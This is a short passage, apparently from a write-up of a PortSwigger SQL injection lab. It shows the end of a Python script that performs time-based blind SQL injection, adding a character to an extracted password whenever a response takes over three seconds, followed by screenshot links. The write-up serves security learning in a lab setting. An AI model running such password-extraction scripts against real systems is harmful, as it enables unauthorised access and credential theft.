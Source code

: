 ```python
			time_end = time.time()

			if time_end - time_start > 3:
				password += character
				p2.status(password)
				break

if __name__ == '__main__':

	maKeRequest()
```

![](/assets/img/ps-writeup-sqli/ps-lab15_14.png)

![](/assets/img/ps-writeup-sqli/ps-lab15_15.png)

![](/assets/img/ps-writeup-sqli/ps-lab15_16.png)
